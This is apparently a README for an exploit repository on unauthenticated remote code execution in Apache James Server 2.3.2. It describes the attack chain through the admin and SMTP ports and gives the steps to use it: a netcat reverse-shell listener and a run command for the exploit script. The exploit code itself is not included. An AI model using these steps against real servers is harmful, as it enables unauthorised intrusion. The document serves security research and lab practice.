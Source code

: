 # Apache James Server 2.3.2 - Remote Code Execution (Unauthenticated)

> ⚠️ **Disclaimer**  
This repository is intended **strictly for educational and research purposes only**.  
The information and code provided here can be used in **controlled environments**, such as private lab machines.  
**Unauthorized use of this code against systems you do not own or have explicit permission to test is illegal and unethical.**  
The author is **not responsible** for any misuse or damages caused.

---

## 🔍 About the Vulnerability

This vulnerability affects **Apache James Server 2.3.2**, an enterprise-grade email and messaging solution written in Java.  
The issue allows **unauthenticated Remote Code Execution (RCE)** via exposed service ports.

The attacker exploits two services in sequence:
1. **Remote Administration Tool (default port: 4555)** – to create a new user  
2. **SMTP Service (default port: 25)** – to send a malicious email payload  
The payload is executed **once the victim logs into the system** (e.g., via SSH).

- **Vulnerability Type:** Unauthenticated RCE  
- **Affected Version:** Apache James Server 2.3.2  
- **Authentication Required:** ❌ No  
- **Severity:** Critical  
- **Exploit-DB ID:** [50347](https://www.exploit-db.com/exploits/50347)  
- **CVE:** _Unknown_ (not assigned)

---

## 📜 References

- [Exploit-DB – 50347](https://www.exploit-db.com/exploits/50347)  
- [Apache James GitHub](https://github.com/apache/james-project)  
- [James Server Documentation](https://james.apache.org/server/)

---

## 🛠️ Exploit Overview

The public exploit from Exploit-DB creates a malicious email that contains a reverse shell command. This is sent using a self-created user account via the exposed admin and SMTP interfaces.

📝 **Important:**  
Make sure to **modify the port numbers inside the exploit script** if your setup uses non-default ports for:
- Admin interface (default: 4555)
- SMTP service (default: 25)


---

## 💥 Exploit Usage
### Step 1: Start Netcat Listener

```bash
nc -nvlp 4444
```

### Step 2: Run the Exploit Script

```bash
python exploit.py <target-ip> <your-ip> <your-port>
```
Replace the IPs and port as per your environment.

✅ Make sure:

Apache James version is 2.3.2

Ports 4555 (admin) and 25 (SMTP) are open

You modify the exploit script if the ports are different

The reverse shell is triggered only after user login


---

## 💥 Demonstration

This exploit was tested in a **private lab setup** using a clean vulnerable instance of Apache James 2.3.2.

### 1. Detecting Apache James Services

An `nmap` scan reveals that the target server is running all James services.

![Apache Version](./img/apache_JAMES.png)

---

### 2. Running the Exploit Script

Command to execute the exploit:

```bash
python exploit.py <target-ip> <your-ip> <your-port>
```

![Exploit](./img/Exploit.png)

### 3. Reverse Shell Listener
Start a netcat listener on the attacker's machine:
```bash
nc -nvlp 4444
```
![Reverse Shell](./img/ReverseShell.png)

## Medium Blog
I’ve written a more in-depth explanation and walkthrough of this exploit on Medium:
👉 Read the blog on Medium